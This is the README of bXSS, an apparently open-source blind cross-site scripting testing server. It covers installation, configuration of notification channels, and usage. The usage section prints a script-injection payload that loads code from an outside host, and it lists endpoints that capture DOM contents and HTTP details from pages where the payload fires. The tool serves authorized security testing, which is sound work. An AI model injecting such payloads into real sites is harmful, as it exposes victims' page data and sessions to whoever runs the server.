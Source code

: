# bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

- A server you control
- A usable domain
- Node.js and Express
- A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
- A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
- A [Twilio Account](https://www.twilio.com/sms) (Optional)
- A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
- A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
- A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
- A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port = Port to run the Node.js app e.g 3030
  - Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b>
    - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
    - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
    - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
    - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
  - Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b>
    - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
    - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
    - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
  - Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b>
    - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
    - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
  - Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b>
    - Steps to create a bot:
      - Visit https://discordapp.com/developers/applications/
      - Create a new application (e.g bXSSForCompany)
      - Make a note of your CLIENT ID
      - Select 'Bot'
        - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
      - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
      - Select the server you want your bot to join and authorize
      - Update the following values below for the bot to post to the 'text channel' e.g ('general')
    - config.discord.token = 'your bot token'
    - config.discord.channel = 'channel you want it to join, e.g general'
  - Twitter <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>
    - config.twitter.consumer_key = API Key
    - config.twitter.consumer_secret = API Secret Key
    - config.twitter.access_token_key = Application Access Token
    - config.twitter.access_token_secret = Application Access Token Secret
    - Permissions (Write)
    - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
  - Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
    - config.gmail.user = Gmail Username
    - config.gmail.pass = Gmail Password
    - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
    - config.gmail.from = Who sent the message, usually Gmail Username
  - Rename configExample.js to config.js
- Start your app (depending on your preference)
  - node app.js
  - pm2 start app.js
  - nodemon app.js

## Additional Steps (Optional)

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
- Start your app (depending on your preference)
  - node app.js
  - npm2 start app.js
  - nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
